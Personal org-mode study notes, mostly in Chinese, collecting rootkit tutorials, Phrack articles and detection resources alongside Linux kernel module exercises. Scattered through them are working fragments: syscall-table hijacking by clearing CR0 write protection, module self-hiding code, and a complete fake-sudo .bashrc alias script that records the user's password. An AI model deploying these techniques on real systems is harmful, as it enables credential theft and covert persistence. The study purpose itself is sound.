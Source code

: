 * linux-rootkit-hack
* [[http://www.opensecuritytraining.info/Rootkits.html][Rootkits: What they are, and how to find them]]
这个教程就是没有英文字母，其实看起来还好,还有是windows的。
* [[http://phrack.org/issues/68/6.html#article][Android platform based linux kernel rootkit]]
 reference得一个个看掉：
** [1] "[[http://phrack.org/issues/50/5.html#article][Abuse of the Linux Kernel for Fun and Profit]]" by halflife
[Phrack issue 50, article 05]
上面的编译不通过，包含的头文件有问题，加了 -I/usr/src/kernels/$(shell
uname -r)/include/ -I/usr/src/kernels/$(shell uname
-r)/arch/x86/include/，但是貌似报错越来越多，看来是个系统工程。只能先看
下面这个补一下LKM的知识（学东西就是各种坑的）。原来是这样，这个make要加
上 -C $(KERNELDIR) M=$(PWD)。[[http://www.crashcourse.ca/introduction-linux-kernel-programming/lesson-5-details-details-details-bonus-lesson][Lesson 5: Details, details, details
... (BONUS LESSON)]] 简要讲解了这些make的选项的意义。linux根目录下的
[[https://github.com/torvalds/linux/blob/master/Documentation/kbuild/modules.txt][Documentation/kbuild/modules.txt]] 更细致的解释,留坑待填。这篇文章太老了。
很多头文件包不进来，函数声明也变了。文章里也说了：
“If all does not go well ... well, I shall leave that to your
nightmares.”但是这篇文章思路非常清晰，基本原来就是这样hook的,还是留待把。
*** [[https://www.thc.org/papers/LKM_HACKING.html][(nearly) Complete Linux Loadable Kernel Modules]]
再试一下这个教程。不行，一样的问题，基本的helloworld.c都编译不通过, 再
找一个教程。
***  [[http://www.crashcourse.ca/introduction-linux-kernel-programming/introduction-linux-kernel-programming][introduction-linux-kernel-programming]]
这本来是一个收费课程，
[[http://www.crashcourse.ca/introduction-linux-kernel-programming-2nd-edition/introduction-linux-kernel-programming-2nd-edition][introduction-linux-kernel-programming-2nd-edition]] 现在还是收费的，没有
美元信用卡，不过免费的就是有点过时，其实也没什么。[[http://kroah.com/lkn][Linux Kernel in a
Nutshell(lkn)]] 是这个课程的参考书，不喜欢刚开始就翻大部头。刚开始的编译
最新内核，启动不了。运行的内核版本3.10.0-229.7.2，CentOS 7，和教程里面
的Ubuntu 10.4不一样，我只需要make module_install, make install。还有一
个dracut代替教程里面的update-initramfs命令（可是我觉得没必要，因为
initramfs已经生成了。是的，现代的内核就是这样，我从评论区和第二版教程上
确认了。），不深究，先写LKM。（下面的坑其实都不用细看，只要这个教程学完
就可以了。我留下这些note是觉得hack的过程，比单纯的罗列知识点更自然。当
然我也是小白什么都不懂。）
**** [[http://www.crashcourse.ca/introduction-linux-kernel-programming/lesson-8-module-diagnostics-and-init-and-exit-code-again][第八章]] 留下一个坑。
: Exercise for the student: Predict what will happen with a message you
: print from your crash3 module with a priority of KERN_DEBUG. Test it.
我将crash3.c中的printk第一个宏改成了KERN_DEBUG，insmod之后，cat
/var/log/message没有找到输出，搜索了一下。发现了[[http://www.makelinux.net/ldd3/chp-4-sect-2Linux][Linux Device
Drivers(ldd3), 3rd Edition -- chp-4-sect-2]]，以及[[http://oss.org.cn/kernel-book/ldd3/ch04s02.html][福利]]！ （这本书竟然有中
文版，留坑待填。先不管，继续LKM。）[[https://stackoverflow.com/questions/4518420/where-does-output-of-print-in-kernel-go][linux - Where does output of print
in kernel go?]] 这里看到答案。
: ➜ crash3 dmesg|grep crash3
: [26608.501991] crash3 module being loaded.
: [26646.168736] crash3 module being unloaded.
: [29784.621436] crash3 module being loaded.
: [35418.826363] crash3 module being unloaded.
通过上面，确实看到了输出，不过不知道原理（[[https://github.com/torvalds/linux/blob/master/kernel/printk/printk.c][linux/kernel/printk.c]] 源码留坑)
**** 还是[[http://www.crashcourse.ca/introduction-linux-kernel-programming/lesson-8-module-diagnostics-and-init-and-exit-code-again][第八章]] 下面有一个练习：
: Exercise for the student: If you're running the stock Ubuntu kernel
: (and you should be), how can you verify that the kernel doesn't
: support forced module unloading? Besides, of course, just trying it
: and having it fail.
本来想留个坑的，算了。参见[[http://cateee.net/lkddb/web-lkddb/MODULE_FORCE_UNLOAD.html][CONFIG_MODULE_FORCE_UNLOAD]]。
至于原理嘛，看[[https://github.com/torvalds/linux/blob/master/kernel/module.c#L984][这里]], 还有 [[https://github.com/torvalds/linux/blob/master/kernel/module.c#L1032][这里]]。
**** [[http://www.crashcourse.ca/introduction-linux-kernel-programming/lesson-9-all-about-module-parameters][第九章]] 留下一个坑（很好的思路）：
#+begin_example
While we've restricted ourselves to just the int module parameter
type, there are a number of others including uint, byte, short,
ushort, pointers, character strings and more. To see the full list,
peruse the kernel header file include/linux/moduleparam.h.

An excellent way to understand any kernel feature is to scan the
kernel source tree looking for examples of its usage. Assuming that
your system has the module usbhid, use modinfo to check its
properties, then examine its source file under
drivers/hid/usbhid/hid-core.c to examine its parameters, and compare
what you see with what's under the /sys directory.
#+end_example

**** [[http://www.crashcourse.ca/introduction-linux-kernel-programming/lesson-10-kernel-symbol-table-and-why-you-should-care][第十章]] 的坑：
: Exercise for the student: By far, the most common export directive is
: EXPORT_SYMBOL. If you know how to use grep, scan the kernel source
: tree to see how many times someone is very carefully exporting a
: symbol only to GPL-compatible modules with EXPORT_SYMBOL_GPL.
这道题目非常简单：
: ➜ intro-linux-kernel-programming grep -r EXPORT_SYMBOL_GPL ./linux/*|wc -l
: 16483
这一章教程称赞了"[[http://reiber.org/nxt/pub/Linux/LinuxKernelDevelopment/Linux.Kernel.Development.3rd.Edition.pdf][Linux Kernel Development(lkd)]]"的作者[[https://www.rlove.org/][Robert Love]]（也是
本教程参考书[[http://kroah.com/lkn/][lkn]] 的作者）是kernel wizard。这位巫师说:一个module其实比内
核内部得到更加受限制的内核符号表。
: "Core code can call any non-static interface in the kernel because all
: core source files are linked into a single base image."That means that
: normal non-static, unexported symbols in kernel space are available to
: other routines that are built into the kernel, but are not available
: to loadable modules. In short, your modules are working with a more
: restricted kernel symbol table than other routines that are part of
: the kernel itself.
还简洁的指出，所谓系统API不过是内核的导出符号而已。
: "The set of kernel symbols that are exported are known as the exported
: kernel interfaces or even (gasp) the kernel API."
**** [[http://www.crashcourse.ca/introduction-linux-kernel-programming/lesson-12-adding-proc-files-your-modules-part-2][十二章]] 留下了RTFS( Read The Fine/FUCK Source)的坑,
并给我留下指引：
#+begin_example
- fs/proc/ -- a directory of code to generate a number of proc files,
including some you've already seen,
- include/linux/fs.h -- declarations for various, generic filesystem
structures,
- include/linux/proc_fs.h -- declarations for the various proc file
routines, many of them declared as static inlines,
- include/linux/seq_file.h -- declarations specifically for the
"sequence file" implementation of proc files, and
- the book "Linux Device Drivers (3rd ed)",referred to as "LDD3" and
available online here -- it has an
excellent section on proc files in Chapter 4 that I'll be referring to
a bit later on.
#+end_example
[[http://www.makelinux.net/ldd3/][Linux Device Drivers (3rd ed)]]这本书就是上文说到[[http://oss.org.cn/kernel-book/ldd3/][福利]] 那本，真是缘分。真
是可惜，这本书有新版本了，[[https://github.com/jesstess/ldd4][ldd4]] 。
**** [[http://www.crashcourse.ca/introduction-linux-kernel-programming/lesson-12-adding-proc-files-your-modules-part-2][十二章]] 课后作业：
#+begin_example
Exercise for the student: Based simply on what we've explained above,
trace through the code in kernel/irq/proc.c to get a general idea of
how that entire subdirectory comes into existence.
Additional exercise for the student: If you're feeling ambitious,
combine the earlier jiffies and HZ examples into a single module, and
put those two proc files underneath a /proc directory of your
name. 
There is an additional challenge here, though -- you need to add
exit code so that your proc files and directory are deleted when you
unload the module and, no, I'm not going to explain how to do
that. You're on your own there. Time to get your feet wet and jump
into the kernel code and figure out how to do that just from reading
the source and the header files mentioned above.
#+end_example
代码在这里[[https://github.com/torvalds/linux/blob/master/kernel/irq/proc.c][kernel/irq/proc.c]] 留待把。
** [2] "[[http://phrack.org/issues/52/18.html#article][Weakening the Linux Kernel]]" by plaguez
[Phrack issue 52, article 18]
* Writing Modern Linux Rootkits
** [[http://turbochaos.blogspot.jp/2013/09/linux-rootkits-101-1-of-3.html][Modern Linux Rootkits 101]]
*** 留一个坑
: It's important to note that there are attempts to prevent runtime
: loading of new LKM's. You can do this by setting the flag in
: /proc/sys/kernel/modules_disabled. There won't be much talk about
: bypassing that on this first part, but we'll look at it and get around
: it in part 3.
modules_disabled应该是在这里。
https://github.com/torvalds/linux/blob/master/kernel/module.c
*** 全文思路
通过strace分析得到要改写的内核api,然后套一个module模板代码，
将要钩住的函数改掉。
*** 分析api
**** strace ls
: strace -v -s 1024 -o file /bin/ls
: This will cause strace to be verbose, increase default string limit,
: and write to a file called 'file'.
通过strace命令分析ls的调用的内核接口。然后得到如下总结。
: If you were to man 2 system_call_name, you can see most everything
: you'd want to know. We have a description, arguments, types, usages,
: and more readily available.
**** man 2 api_interface
通过man 2 xxx来查内核接口，并且得到ls命令大概的实现流程，漂亮。
#+begin_example
With a new understanding about how these functions work, let's put it
all together to understand how ls works with system calls to display
the inormation. It starts off with openat to open a file descriptor
with the given directory, which was current (.) in our case. Then it
grabs the information on each of the files/directories in the given
directory by using getdents and fstat. Getdents retriveving virtual
filesystem information such as inode number and name. Fstat retrieving
common information such as timestamps, privilege values, block size,
and etc. Finally, we take the parsed values of the program and write
them to the standard out terminal screen.
#+end_example
最后分析得到的结论是钩住write()。
*** rootkit模板
**** sys_call_table地址
找sys_call_table,这里直接暴力查找的，O(n)可以接受，
代码在find()这个自己写的函数内，可以替换成其他手法。
**** 改写系统调用表(sys_call_table)，考虑内核写保护
:  /* disable write protect on page in cr0 */
:  write_cr0(read_cr0() & (~ 0x10000));
: 
:  /* hijack functions */
:  o_write = (void *) xchg(&sys_call_table[__NR_write],rooty_write);
: 
:  /* return sys_call_table to WP */
:  write_cr0(read_cr0() | 0x10000);
如上，关闭控制寄存器cro的写保护(WP)。然后将自己写的假的系统调用
rooty_write和系统调用表内保存的write的地址交换。重新开启cro写保护。最后
就是rooty_write实现了。注意函数签名要和write完全一样。这里只是示意一下，
有bug的。
**** 隐藏module本身
: /* Do kernel module hiding*/
:  list_del_init(&__this_module.list);
:  kobject_del(&THIS_MODULE->mkobj.kobj);
如上，将module“删除”了，这样rmmod也不能正常卸载驱动了，开发的时候要注释
掉。 
*** reference
**** [[https://en.wikipedia.org/wiki/System_call][System call]]
: Tools such as strace and truss allow a process to execute from start
: and report all system calls the process invokes, or can attach to an
: already running process and intercept any system call made by said
: process if the operation does not violate the permissions of the
: user. This special ability of the program is usually also implemented
: with a system call, e.g. strace is implemented with ptrace or system
: calls on files in procfs.
**** [[http://man7.org/linux/man-pages/man2/syscalls.2.html][syscalls - Linux system calls]]
#+begin_example
Roughly speaking, the code belonging to the system call with number
__NR_xxx defined in /usr/include/asm/unistd.h can be found in the
Linux kernel source in the routine sys_xxx().  (The dispatch table for
i386 can be found in /usr/src/linux/arch/i386/kernel/entry.S.)  There
are many exceptions, however, mostly because older system calls were
superseded by newer ones, and this has been treated somewhat
unsystematically.  On platforms with proprietary operating-system
emulation, such as parisc, sparc, sparc64, and alpha, there are many
additional system calls; mips64 also contains a full set of 32-bit
system calls.
#+end_example
**** [[http://www.ibm.com/developerworks/library/l-system-calls/][Kernel command using Linux system calls]]
**** [[http://blog.csdn.net/ce123_zhouwei/article/details/8446520][linux内核中的fastcall和asmlinkage宏]]
对x86平台来说
: #define asmlinkage CPP_ASMLINKAGE __attribute__((regparm(0)))  
: #define FASTCALL(x) x __attribute__((regparm(3)))  
: #define fastcall    __attribute__((regparm(3)))  
__attribute__((regparm(0)))：告诉gcc编译器该函数不需要通过任何寄存器来
传递参数，参数只是通过堆栈来传递。
__attribute__((regparm(3)))：告诉gcc编译器这个函数可以通过寄存器传递多
达3个的参数，这3个寄存器依次为EAX、EDX 和 ECX。
** [[http://turbochaos.blogspot.jp/2013/10/writing-linux-rootkits-201-23.html][Writing Modern Linux Rootkits 201 - VFS]]
本教程不仅仅是学习作者的手法，更要学习他的分析的思路。
*** VFS的优点
#+begin_example
Virtual file systems (VFS) are an abstraction layer to allow easy
communication with other filesystems such as ext4, reiser fs, or other
special filesystems like procfs. This extra layer translates easy to
use VFS functions to their appropriate functions offered by the given
filesystem. This allows a developer to interact solely with the VFS
and not needing to find, handle, and support the different functions
and types of individual filesystems.

There are two major reasons why we should care about this. First, we
can hook a VFS function and deal with that one function to hide
information from the concrete filesystem. This allows a one stop shop
hijack for hiding from any VFS supported filesystem (the majority of
them). With this we will have the ability to hide files and
directories from most tool with ease. The second reason is that procfs
is a supported filesystem.
#+end_example

*** Procfs (Proc filesystem)简介
#+begin_example
The proc filesystem is an interface to easily manage kernel data
structures. This includes being able to retrieve and even change data
inside the linux kernel at runtime. More importantly, for us, it also
provides an interface for process data. Each process is mapped to
procfs by its given process id number. Retrieving this pid number
allows any tool to pull, with appropriate privileges, whatever data it
needs to find out about that given process. This includes its memory
mapping, memory usage, network usage, parameters, environment
variables, and etc. Given this, if we know the pid and we're hooked
into the VFS for procfs, we can also manipulate data returned to these
tools to hide processes.
#+end_example
*** 分析procfs,找到要劫持的函数
: We will then need to get another VFS pointer to /proc for the procfs
: to hide processes. But what pointer/function do we want to hijack?
*** 通过一系列分析，选定readdir和filldir
: So, when we hijack file->f_op->readdir all we really need to do is
: manage our own filldir function, parse it, and then call the real
: readdir with our filldir values.
*** 对kernel3.11之后，vfs_readdir被iter_dir替换了,待更新
#+begin_example
With 3.11 kernels, vfs_readdir has been completely removed and now
uses iter_dir for the new iterator value in file_operations. This
looks like "file->f_op->iterate(file, ctx);" where ctx is struct
dir_context *ctx. This structure looks like:

struct dir_context {
         const filldir_t actor;
         loff_t pos;
};
I will update this post as soon as full coverage for 3.11 kernels is
completed.
#+end_example

** [[http://turbochaos.blogspot.jp/2013/10/writing-linux-rootkits-301_31.html][Modern Linux Rootkits 301 - Bypassing modules_disabled security]]
真期待后续的教程。后面两篇都反复看不懂。
: I believe next I'll be starting a malware writing series so we can
: start building malware functionality and then adding rootkit
: functionality to hide what the malware is doing. It'll involve
: communication over an already bounded externally available port, magic
: packets for reverse shells, and complete hiding from our rootkit. This
: all depends on my time available and how well this current series
: does.

** [[http://turbochaos.blogspot.jp/2013/11/ghetto-privilege-escalation-with-bashrc.html?view%3Dsidebar][Ghetto Privilege Escalation With .bashrc]]
   好猥琐的手法。开始看作者其他的文章，一个人不可能一下子这么牛逼的。
首先将下面脚本保存成fake-sudo.sh。命令行"chmod +x fake-sudo.sh"加上执行权限。
在.bashrc加上"alias sudo="/location/to/fake-sudo.sh"。 #+begin_example
#!/bin/bash
if [ ! -f .chak ]; then                       #如不存在.chak文件
 echo -n "[sudo] password for `whoami`: ";    #现实要求输入密码
 stty -echo;                                  #关闭回显
 read password;                               #读取密码，保存到变量password
 stty echo;                                   #打开回显
 echo -e $password > .chak;                   #将密码保存,-e:enable backslash escapes,测试无效果。
 echo ""
 sleep 2
 echo "Sorry, try again";
fi
string="/bin/sudo"                            #$#：添加到shell中的参数个数
while test $# -gt 0; do
 string+=" $1";                               #添加$1
 shift;                                       #命令参数左移，$3-->$2,$2-->$1,$1消失，$0保持不变。
done
$string                                       #执行命令
#+end_example

然后等下次作者sudo的时候，最后的结果：
: ➜  ~  sudo yum search ssh
: [sudo] password for ice: 
: Sorry, try again
: [sudo] password for ice: 
然后.chak文件将保存你输入的密码。
最后尝试下su命令不能写出对应的版本，因为su如果输入错误直接认证失败了，除非钩住登陆的方法。
** VFS
[[http://security.tencent.com/index.php/opensource/detail/16][Linux Rootkit (vfs hook) 隐藏进程检测工具]]
[[http://staronmytop.blog.51cto.com/6366057/1119475][Linux下的RootKit简单介绍与分析]]
[[http://pages.cpsc.ucalgary.ca/~crwth/programming/VFS/VFS.php][How to write a Linux VFS filesystem module]]
* from reddit
** [[http://core.ipsecs.com/rootkit/kernel-rootkit/kbeast-v1/][A Linux Kernel Module Rootkit has been released in 2012: Kbeast]]
** Rootkit.com mirror?
https://web.archive.org/web/*/rootkit.com/vault/* 
http://opensecuritytraining.info/Rootkits.html
** [[https://www.syscan360.org/slides/2014_EN_AdvancedBootkitTechniquesOnAndroid_ChenZhangqiShendi.pdf][Advanced Bootkit Techniques on Android]]
** [[http://s3.eurecom.fr/~zaddach/docs/Recon14_HDD.pdf][Exploring the impact of a hard drive backdoor]]
** [[https://github.com/dynup/kpatch][kpatch: dynamic kernel patching]]
kpatch is a Linux dynamic kernel patching infrastructure which allows
you to patch a running kernel without rebooting or restarting any
processes. It enables sysadmins to apply critical security patches to
the kernel immediately, without having to wait for long-running tasks
to complete, for users to log off, or for scheduled reboot windows. It
gives more control over uptime without sacrificing security or
stability.
** [[https://www.blackhat.com/presentations/bh-usa-09/TERESHKIN/BHUSA09-Tereshkin-Ring3Rootkit-SLIDES.pdf][Introducing Ring -3 Rootkits]]
** [[http://timeglider.com/timeline/5ca2daa6078caaf4][这个时间线好强大，值得深入google!]]
** Ring3 / Ring0 Rootkit Hook Detection
[[http://www.malwaretech.com/2013/09/ring3-ring0-rootkit-hook-detection-12.html][Ring3 / Ring0 Rootkit Hook Detection 1/2]]
[[http://www.malwaretech.com/2013/10/ring3-ring0-rootkit-hook-detection-22.html][Ring3 / Ring0 Rootkit Hook Detection 2/2]]
** [[http://repo.hackerzvoice.net/depot_madchat/vxdevl/library/Inside%2520Windows%2520Rootkits.pdf][Inside Windows Rootkits]]
** [[https://media.blackhat.com/us-13/US-13-Vuksan-Press-ROOT-to-Continue-Detecting-MacOS-and-Windows-Bootkits-with-RDFU-WP.pdf][ROOTKIT DETECTION FRAMEWORK FOR UEFI]]
** [[http://news.saferbytes.it/analisi/2012/09/uefi-technology-say-hello-to-the-windows-8-bootkit/][UEFI technology: say hello to the Windows 8 bootkit!]]
** [[https://github.com/quarkslab/dreamboot][dreamboot UEFI bootkit]]
** [[http://www.exfiltrated.com/research.php#BIOS_Based_Rootkits][BIOS Based Rootkits]]
** [[https://media.blackhat.com/us-13/US-13-Butterworth-BIOS-Security-Slides.pdf][BIOS Chronomancy:Fixing the Core Root of Trust for Measurement]]
** [[https://www.hackinparis.com/sites/hackinparis.com/files/Slidesthomasroth.pdf][Next generation mobile rootkits]]
** [[http://beneathclevel.blogspot.co.uk/][A Linux rootkit tutorial - Makefile and symbols]]
** [[http://www.unixist.com/security/detecting-hidden-files/index.html][>: Detecting hidden files]]
** [[http://shell-storm.org/blog/Simple-Hook-detection-Linux-module/][Simple hook detection Linux module]]
** [[https://reverse.put.as/wp-content/uploads/2013/05/SysScan-13-Presentation.pdf][Revisiting Mac OS X Kernel Rootkits!]]
** Syscall Hijacking: Simple Rootkit
[[https://memset.wordpress.com/2010/12/28/syscall-hijacking-simple-rootkit-kernel-2-6-x/][Syscall Hijacking: Simple Rootkit (kernel 2.6.x)]]
[[https://memset.wordpress.com/2011/03/18/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x-2/][Syscall Hijacking: Dynamically obtain syscall table address (kernel 2.6.x) #2]]
** [[http://phrack.org/issues/68/6.html][Android platform based linux kernel rootkit]]
** [[http://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/][Suterusu Rootkit: Inline Kernel Function Hooking on x86 and ARM]]
** [[https://www.trailofbits.com/resources/advanced_macosx_rootkits_paper.pdf][ADVANCED MAC OS X ROOTKITS]]
** [[http://rkhunter.sourceforge.net/][The Rootkit Hunter project]]
** [[http://www.symantec.com/connect/articles/detecting-rootkits-and-kernel-level-compromises-linux][Detecting Rootkits And Kernel-level Compromises In Linux]]
** [[http://static.usenix.org/event/sec09/tech/full_papers/hund.pdf][Return-Oriented Rootkits Bypassing Kernel Code Integrity Protection Mechanisms]]
** [[https://media.blackhat.com/bh-ad-11/Oi/bh-ad-11-Oi-Android_Rootkit-Slides.pdf][Yet Another Android Rootkit]]
** [[http://phrack.org/issues/58/7.html][Linux on-the-fly kernel patching without LKM]]
** [[www.la-samhna.de/library/rootkits/list.html][List of Kernel Rootkits - Samhain Labs]]
** [[https://www.blackhat.com/presentations/bh-jp-05/bh-jp-05-sparks-butler.pdf]["shadow Walker" Raising The Bar For Rootkit Detection]]
* windows rootkits
** [[http://www.phrack.org/issues/63/8.html][Raising The Bar For Windows Rootkit Detection]]
   总结windows rootkit的演变历史。
#+begin_example
First generation rootkits were primitive.  They simply replaced /
modified key system files on the victim's system.  The UNIX login
program was a common target and involved an attacker replacing the
original binary with a maliciously enhanced version that logged user
passwords.  Because these early rootkit modifications were limited to
system files on disk, they motivated the development of file system
integrity checkers such as Tripwire [1].

In response, rootkit developers moved their modifications off disk to
the memory images of the loaded programs and, again, evaded
detection. These 'second' generation rootkits were primarily based
upon hooking techniques that altered the execution path by making
memory patches to loaded applications and some operating system
components such as the system call table. Although much stealthier,
such modifications remained detectable by searching for heuristic
abnormalities. For example, it is suspicious for the system service
table to contain pointers that do not point to the operating system
kernel. This is the technique used by VICE [2].

Third generation kernel rootkit techniques like Direct Kernel Object
Manipulation (DKOM), which was implemented in the FU rootkit [3],
capitalize on the weaknesses of current detection software by
modifying dynamically changing kernel data structures for which it is
impossible to establish a static trusted baseline.
#+end_example
